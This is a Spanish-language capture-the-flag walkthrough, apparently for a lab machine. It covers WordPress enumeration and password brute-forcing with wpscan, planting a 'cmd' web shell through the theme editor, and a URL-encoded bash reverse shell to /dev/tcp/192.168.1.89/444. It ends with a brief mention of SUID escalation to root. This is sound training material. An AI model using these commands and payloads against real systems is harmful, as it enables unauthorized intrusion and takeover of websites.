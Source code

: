 kali
Port: 80

- Vamos a ver la pagina web.
- No encontramos nada, vamos a hacer Fuzzing web.
![[Pasted image 20250310173234.png]]
- Encontramos un wordpress, vamos a ver que encontramos ahi.
![[Pasted image 20250310173421.png]]
- Investigando encontramos un login web de wordpress.
![[Pasted image 20250310173455.png]]
- Vamos a usar wpscam para encontrar información importante.
```
wpscan --url (IP_VICTIMA_DIRECTORIO) --enumerate u,vp
```
- Encontramos un usuario
![[Pasted image 20250310173820.png]]
- Vamos a hacer fuerza bruta con wpscan´.
```
wpscan --url http://172.17.0.2/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames mario

```
![[Pasted image 20250310174132.png]]
- Ya tenemos la contraseña y ya estamos dentro.
![[Pasted image 20250310174157.png]]
- Ahora lo que tenemos que ver es si podemos subir un archivo con una reverse o editar un archivo ya creado para ingresar una reverse.
- Nos vamos a apariencia > Theme Code Editor y configuramos el codigo de index.php
![[Pasted image 20250310175319.png]]
- ==$_GET['cmd']== ---->  Variable superglobal en PHP que recoge datos enviados a través de la URL usando el método GET.
- Si en la URL ponemos un comando, este lo vamos a reconocer, vamos a agregar el comando id.
```

http:://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=id
```
![[Pasted image 20250310175839.png]]
- Si agregamos otro código como whoami, tambien nos saldra una salida.
![[Pasted image 20250310175920.png]]
- Aquí es donde vamos a poner nuestra reverse
```
172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php?cmd=bash -c "sh -i >%26 /dev/tcp/192.168.1.89/444 0>%261"
```
- Es importante que recordar que cuando escribimos la shell en la URL las "&" se cambian por "%26".
![[Pasted image 20250310180225.png]]
- Hacemos la TTY.
- No podemos escalar por sudo -l , Vamos a tener que hacerlo por SUID.
![[Pasted image 20250310180641.png]]
- Ya somos root.